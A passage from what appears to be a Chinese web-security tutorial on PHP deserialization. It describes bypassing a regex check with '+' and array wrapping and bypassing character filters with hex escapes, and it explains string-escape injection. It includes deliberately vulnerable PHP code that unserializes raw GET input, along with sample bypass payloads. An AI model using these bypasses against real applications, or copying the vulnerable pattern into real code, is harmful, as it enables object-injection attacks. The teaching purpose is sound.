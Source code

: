 #### 1.7.3 绕过部分正则

`preg_match('/^O:\d+/')`匹配序列化字符串是否是对象字符串开头

*   `+`绕过，对序列化长度的值加上`+`不影响反序列化结果

*   数组绕过,将序列化的值作为数组的值再次序列化，来绕过检测

    ```php
    <?php
    class test{
        public function __wakeup(){
            echo "success";
        }
    }
    $data = $_GET["data"];
    if($data){
        if (preg_match('/^O:\d+/',$data)){
            die('you lose!');
        }
        else
        unserialize($data);
    }
    else die('lose');
    ?>
    //data=O:%2B4:"test":0:{}    +号绕过
    
    // serialize(array(new test()));
    //data=a:1:{i:0;O:4:"test":0:{}}    数组绕过
    ```

#### 1.7.3 16进制绕过字符的过滤

```
O:4:"test":1:{s:1:"a";s:3:"a";}
可以写成
O:4:"test":1:{S:1:"\61";s:3:"a";}
表示字符类型的s大写时，会被当成16进制解析。
```

#### 1.7.4 PHP反序列化字符逃逸

*   **特点**

    ```
    *php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
    *总是先将序列化的值进行修改，在将其反序列化。
    ```

    其本质上就是优先级的问题

    以这个为例`O:4:"test":1:{s:1:"a";s:3:"a";}`

    `s:1`的长度计算优先级高于`""`闭合的优先级；  

    所以当出现对php序列化后的字符串修改后，可以通过构造来写入数据
